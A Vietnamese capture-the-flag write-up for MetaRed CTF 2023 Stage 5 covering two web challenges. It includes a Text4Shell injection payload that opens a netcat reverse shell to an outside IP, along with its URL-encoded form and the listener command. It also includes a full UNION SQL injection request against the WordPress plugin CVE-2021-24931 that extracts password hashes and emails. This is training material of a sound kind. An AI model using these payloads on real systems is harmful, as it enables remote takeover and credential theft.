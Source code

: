 ```yaml
---
title: Write-Up MetaRed CTF 2023 - Stage 5
date: 2023-11-23 7:55:00 +0700
categories: [CTF, MetaRed-CTF-2023, Write-Up]
tags: [web, write-up, ctf]     # TAG names should always be lowercase
---
```

# MetaRed CTF 2023 - Stage 5
# WEB - Text4Shell

- Về cơ bản, việc ta cần làm là tìm cách RCE thông qua param `?search` của trang web, ở đây mình sử dụng revershell

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled.png">
payload: `${java.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e /bin/bash')}`

payload encode url: xx(http)://190.15.135.60/text4shell/attack?search=%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('nc 65.21.156.52 4443 -e %2Fbin%2Fbash')} - **encode $ { }/ và ( )**

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled 1.png">

- `nc -lvnp 4443` : kết nối vào port 4443, sau đó lấy flag ^^

# WEB-WordPress

**[Wordpress Plugin Secure Copy Content Protection and Content Locking < 2.8.2 - SQL-Injection (Unauthenticated)](https://github.com/Hacker5preme/Exploits#wordpress-plugin-secure-copy-content-protection-and-content-locking--282---sql-injection-unauthenticated)**

**# CVE: CVE-2021-24931**

Plugin WordPress "The Secure Copy Content Protection and Content Locking" phiên bản trước 2.8.2 không thoát (escape) đúng tham số **`sccp_id`** của  AJAX **`ays_sccp_results_export_file`**. Hành động này có sẵn cho cả người dùng chưa xác thực và người dùng đã xác thực. Trước khi sử dụng giá trị **`sccp_id`** trong một câu lệnh SQL, plugin không thực hiện bước thoát thích hợp, dẫn đến một lỗ hổng SQL injection.

Lỗ hổng này có thể cho phép kẻ tấn công thực hiện các cuộc tấn công SQL Injection bằng cách chèn các câu lệnh SQL độc hại vào giá trị của **`sccp_id`**.

h t t p s://www.exploit-db.com/exploits/50733

<img src="/assets/writeup/cookie/MetaRed CTF 2023 - Stage 5 e42a378f8c09464288274c527d70a42a/Untitled 2.png">

PAYLOAD: `3) union select 1,user_pass,user_email,2,2,2 from wp_users union select 1,1,1,1,1,1 FROM wp_ays_sccp_reports WHERE (1=1`

- Phần này đang thực hiện một tấn công SQL Injection bằng cách sử dụng UNION SELECT để nối kết quả từ hai truy vấn khác nhau.
- Đoạn **`select 1, user_pass, user_email, 2, 2, 2 from wp_users`** lấy thông tin mật khẩu (**`user_pass`**) và email (**`user_email`**) từ bảng **`wp_users`**.
- Đoạn **`select 1, 1, 1, 1, 1, 1 FROM wp_ays_sccp_reports WHERE (1 = 1)`** dùng để cân bằng các cột

payload url: `GET /wp-admin/admin-ajax.php?action=ays_sccp_results_export_file&sccp_id[]=3)%20union%20select%201,user_pass,user_email,2,2,2%20from%20wp_users%20union%20select%201,1,1,1,1,1%20FROM%20wp_ays_sccp_reports%20WHERE%20(1=1%20&type=json HTTP/1.1`

flag{$P$BsIu9jhV\/NIdvwjpaV8n0MeyhZgMmz0}
